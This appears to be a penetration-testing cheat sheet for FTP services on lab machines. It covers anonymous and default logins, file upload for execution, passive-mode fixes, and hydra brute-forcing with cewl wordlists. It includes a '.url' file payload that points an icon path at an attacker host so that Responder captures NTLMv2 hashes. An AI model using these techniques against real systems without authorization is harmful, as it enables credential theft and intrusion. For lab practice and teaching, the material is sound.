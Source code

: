 # FTP

I would say half of the time if you see this open, it provides the answer to the foothold.

## No Creds?

try anonymous:anonymous (ftp:ftp can work as well) login

- test if you can upload files and download files (get and put)
- rmb to ls -la (for hidden files!)
- do try admin:admin (this might actually work! There is at least one PG box that works like this)

If you can upload files, note the name of the FTP directory. If there is a webservice, maybe you can access the FTP directory and execute that file...

If it is a Windows box, you might be able to pull a URI redirection attack if you can upload a file. To do so, prep a .url file:

```bash
#create a file called evil.url and use text editor to put the following strings inside
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\<attacker ip>\%USERNAME%.icon
IconIndex=1

# On kali, run responder and prepare to capture the NTLMv2 hash when someone interacts with your evil.url
sudo responder -I tun0 # tun0 usually

# upload evil.url into the FTP folder and wait

```


```bash
ftp <ip>
# anonymous login

ls -la

```
Now if you see "229 Entering Extended Passive Mode" after running ls -la, exit out of the ftp, relogin and run the following

```bash
ftp <ip>
# login
passive # this switches off the passive mode
ls -la  # should work now
```

When downloading or uploading files, remember to run ASCII if uploading/downloading text files and Binary if uploading/downloading any other files such as exe, php, zip, pdf etc or else your file may get corrupted!

```bash
ftp> ascii
200 Switching to ASCII mode.
ftp> binary
200 Switching to Binary mode.
```

Download everything with a single command to your current working directory

```bash
wget -m --no-passive ftp://anonymous:anonymous@<target ip> # this also switches off passive mode:)
```


## Only Usernames or Passwords but not both

If there are web services, see if you can compile a list of potential usernames from the webpages
If you have users but no passwords, run Cewl to generate some passwords from the webpages

```bash
# -L for a file containing usernames, -l for a single username. -P for a file containing passwords, -p for a single password
hydra -L users.txt -P password.txt ftp://<ip>

# to generate words from webpage

cewl http://<ip>:<port> > word.list
cewl http://<ip>:<port> --lowercase >> word.list

```
